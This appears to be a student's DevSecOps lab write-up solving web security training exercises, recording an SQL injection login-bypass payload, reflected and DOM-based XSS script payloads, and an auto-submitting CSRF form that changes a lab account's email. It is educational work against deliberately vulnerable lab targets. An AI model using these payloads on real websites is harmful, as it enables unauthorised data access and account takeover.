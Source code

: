 # SQLi 
## SQL injection vulnerability in WHERE clause
- **payload to inject**:  `' or 1=1 `
- **SQL query executed**: `SELECT * FROM products WHERE category = '' OR 1=1 -- ' AND released = 1 `

![[DevSecOps-lab1-2.png]]
## SQLi vulnerability allowing login bypass
![[DevSecOps-lab1-3.png]]



---

# XSS
## Reflected XSS into HTML context with nothing encoded

```javascript
<script>alert("ha ha")</script>
```

![[DevSecOps-lab1-1 1.png]]
## Stored XSS into HTML context with nothing encoded

![[DevSecOps-lab1-3 1.png]]

![[DevSecOps-lab1-2 2.png]]
![[DevSecOps-lab1-2 1.png]]
## DOM XSS in `document.write` sink using source `location.search`
1. first we enter an alphanumeric string in the input and then we search for it in the DOM elements in dev tools.
2. we notice that our input is int tem img tag
![[DevSecOps-lab1-5.png]]
3. payload to inject 

```javascript
"><script>alert("ha ha") </script>
```

![[DevSecOps-lab1-4.png]]


---

# CSRF
first we log in with the given credentials

![[DevSecOps-lab1-9.png]]
![[DevSecOps-lab1-7.png]]

body of the exploit:
```HTML
<form method="POST" action="https://0a7f009c048922f984c9725300ad0062.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="heha@aa.tn">
</form>
<script>
        document.forms[0].submit();
</script>
```


![[DevSecOps-lab1-8.png]]